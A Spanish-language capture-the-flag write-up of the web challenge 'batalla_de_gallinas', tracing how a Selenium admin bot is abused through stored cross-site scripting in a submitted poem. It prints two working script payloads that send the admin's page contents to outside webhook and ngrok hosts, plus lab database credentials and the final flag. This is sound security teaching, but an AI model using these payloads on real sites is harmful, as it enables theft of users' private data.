 # batalla_de_gallinas

Lo primero que hago es montar el reto en local. Es importante este paso porque como veo que esta montando varios conetenedores docker, es importante saber como funcionan y como están interconectados entre sí. 

Tras analizar el `docker.compose.yml` vemos que se esta generando una base de datos con Mariadb, y otro el cual se corresponde a la web. Ambos contenedores están conectados entre si. También contiene otros tres contenedores: `selenium-chrome`, `selenium-hub`, y `redis`. El más importante es `selenium-chrome`, más adelate veremos porque.

En la web nos encontramos con una página de login en la cual nos deja registrarnos con los parametros `user`, `about_me`, y `password`.

![image.png](images/image_01.png)

Si intentamos registarnos con el usuario `admin` no nos deja, porque ya existe ese usuario. 

Nos creamos un usuario, y vemos que podemos subir un poema, y hacer que un administrador lo revise.

![image.png](images/images_02.png)

Con burpsuit, podemos analizar que hace la web cuando le damos al boton `Request poem review`, y este lo que hace es pasar los siguientes parámetros a `http://0.0.0.0:12105/visit`

- `Cookie: session=…`
- `csrf_tocken=…`

![image.png](images/image_03.png)

Analizando el código de la web (el archivo `app.py`):

```python
@app.route('/visit/', methods=['POST'])
@login_required
def doVisit():
    ip = request.remote_addr
    last_timestamp = last_visit.get(ip)
    current_timestamp = time()
    if last_timestamp and (current_timestamp - last_timestamp < VISIT_COOLDOWN):
        flash(f"Current user recently asked for a visit, please wait at least {VISIT_COOLDOWN} seconds between visits", 'warning')
        app.logger.info(f"Rejected enqueue {ip}, current: {current_timestamp}, last {last_timestamp}")
    else:
        last_visit[ip] = current_timestamp
        visit_url = f"http://babypoems:8080/poem/?username={current_user.get_id()}"
        q.enqueue(visit_user_page, visit_url, admin_password)
        flash("Enqueued successfully, an admin will review your poem soon", 'success')
        app.logger.info(f"Enqueued visit from {ip} to {visit_url}, admin pw: {admin_password}")

    return redirect(url_for('poem'))
```

Vemos que cuando nos deja hacer la petición se visita la siguiente URL con el parametro `username=valor` siendo el valor, el id de usuario. Si intentamos nosotros como usuario hacer la petición a la pagina con algun parametro: `http://0.0.0.0:12105/poem/?username=admin` nos salta un banner diciendo que solo los administradores pueden realizar esta opción.

---

Vamos a abordar la parte de la base de datos. Al iniciar el contenedor docker, se establece un contenedor que corresponderá a la base de datos (en mariadb). Si nos conectamos al contenedor, con: `docker exec -it <nombre_contenedor> /bin/bash`, podemos autenticarnos en mariadb con el usuario `babypoemsdbuser` y su contraseña `babypoemsdbpassword`. Listando las databases existentes (`SHOW DATABASES;`) nos conectamos a babypoemsdb (`USE babypoemsdb;`). Estando aquí, listamos todos los usuarios y contraseñas mediante la querry `SELECT * FROM user;`

![Screenshot 2024-11-21 at 12.14.13.png](images/image_04.png)

Vemos nuestro usuario y el usuario administrador. Pero de esta manera no conseguimos nada. Teniendo en cuenta que mariadb es bastante seguro, no vamos a intentar hacer una inyección SQL.

---

Otra opción que se nos puede ocurrir es abordar un secuestro de Cookies. Queremos obtener la cookie del usuario admin, para así secuestrar su sesión y poder ver el campo de `aboutme`. El servidor tiene configurado una flag en las cookies, `HttpOnly` está activado. Esta flag significa que desde javascript no vamos a poder leer las cookies del usuario, por lo tanto buscamos otro punto de entrada.

Revisando los archivos de la web, vemos un archivo llamado `visitor.py` el cual se ejecuta cuando submietamos el poema para que lo revise un administrador.

```python
from time import sleep
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys

def visit_user_page(url, adminpwd):
    options = webdriver.ChromeOptions()
    driver = webdriver.Remote(
         command_executor="http://selenium-hub:4444",
         options=options
    )
    try:
        print(f"Visiting {url}")
        driver.implicitly_wait(5)  # 5 sec timeout for finding elements
        driver.get("http://babypoems:8080/login")
        login_f = driver.find_element(By.ID, "usernameinput")
        login_f.send_keys("admin")
        pw_f = driver.find_element(By.ID, "passwordinput")
        pw_f.send_keys(adminpwd)
        pw_f.send_keys(Keys.ENTER)
        driver.get(url)
        sleep(5)  # Admire during 5 seconds how beautiful the user poem is
    finally:
        driver.quit()
```

Este lo que está haciendo es desde el contenedor `selenium-chrome` usar un navegador que se autentique con nuestro usuario, visualizará el problema el problema durante 5 segundos y se saldrá.

Cada vez que submiteamos el `js` que ponemos en el poema, se ejecutará cada vez que se visite a ese usuario. Este es un buen punto de entrada a la hora de poder obtener la flag, que si lo recordamos, está en el campo “About me” del usuario admin.

Se me ocurre que si conseguimos que el bot cargue la pagina correspondiente a el administrador: `https://…/poem/?username=admin` se guarde el `html` y despues enviárnoslo a un servidor que controlemos nosotros por el método POST, podremos obtener el campo “About me” del administrador. Este sería el código en `javascript`:

```python
<script>
fetch('https://3b51a408a705-webth-vulnerable.numa.host/poem/?username=admin')
.then(response => response.text())
.then(data => {

    const inputValue = document.querySelector("input").value;
    

    const serverUrl = 'https://webhook.site/b52153d3-fbf8-457f-a2eb-6b5d24d6735b';
    const fullUrl = `${serverUrl}?data=${encodeURIComponent(inputValue)}`;
    

    fetch(fullUrl);
});
</script>
```

Con este script vemos que el admin esta visualizando correctamente nuestro poema, porque estamos renderizando el HTML, y pasandolo a un servidor controlado.

![Screenshot 2024-12-02 at 09.55.03.png](images/image_05.png)

Realmente, lo que queremos hacer es en vez de cargar el HTML, debemos cargar la cookie de admin, porque ahora mismo el bot, está como administrador porque puede acceder a la web `http://localhost:12105/poem/?username=a35`

Al hacer las peticiones, no se nos carga de manera correcta pues siemrpe nos cargará nuestro usuario. Al final llegamos a la conclusión de que no hay que decirle al bot que visite `/poem/?username=admin`. Por lo tanto nos quedará el script de la siguiente manera:

```python
<script>

    document.addEventListener('DOMContentLoaded', () => {

        const htmlContent = document.documentElement.outerHTML;

        const serverUrl = 'https://ab4a-193-147-77-9.ngrok-free.app';

        fetch(serverUrl, {
            method: 'POST',
            headers: {
                'Content-Type': 'text/plain',
            },
            body: htmlContent
        }).then(() => {
            console.log("Datos enviados al servidor con éxito.");
        }).catch(error => {
            console.error("Error al enviar los datos:", error);
        });
    });
</script>
```

Con esto conseguimos ver cual es la flag.

![image.png](images/image_06.png)

`URJC{4qu3l_h4ck3r_d3_l4s_4nd3s}`
